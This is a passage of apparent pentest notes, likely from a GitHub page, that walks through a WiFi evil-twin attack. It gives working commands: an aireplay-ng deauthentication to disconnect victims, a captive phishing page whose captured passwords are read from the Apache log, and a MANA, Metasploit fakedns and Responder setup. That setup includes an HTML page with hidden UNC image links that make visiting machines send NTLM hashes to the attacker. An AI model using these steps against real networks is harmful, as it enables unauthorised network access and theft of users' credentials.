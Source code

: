 Now we need to deauth the target from the legit network to log in ours malicious one:
```
aireplay-ng --deauth 25 wlan1mon -b <BSSID> -c <SSID> -e <name of network> 
```

   // bssid = mac of the target AP
   // ssid = mac of the target station
   // -e = name of the network

- now that the victim enter in our malicious network
- when they open the browser, it will automatically open the phishing page
- that we can get their password of their WiFi

After they insert the password we can grab from
```
tail -f /var/log/apache2/access.log
```

- now we can access their WiFi and continue the pentest


### with Responder + MANA
Execute the payload:
```
./start-noupstream.sh
```

- in another tab

Put the second interface in monitor mode:
```
airmon-ng start wlan1
airodump-ng wlan1mon -essid <name of network> --channel <same of the target>
```

Metasploit fake dns:
```
use auxiliary/server/fakedns
set targetaction FAKE
set targetdomain *
set targethost 10.0.0.1
exploit -j
```

Create a simple html page:
```html

<html>
<img src="file://///10.0.0.1/share" width="0" height="0"></img>
<img src="\\10.0.0.1\share" width="0" height="0"></img>
</html>

```

- copy the page to /usr/share/mana-toolkit/www/portal/


Start responder and verify if its listening in our first interface wlan0:
```
cd /usr/share/responder
python Responder.py -I wlan0

```
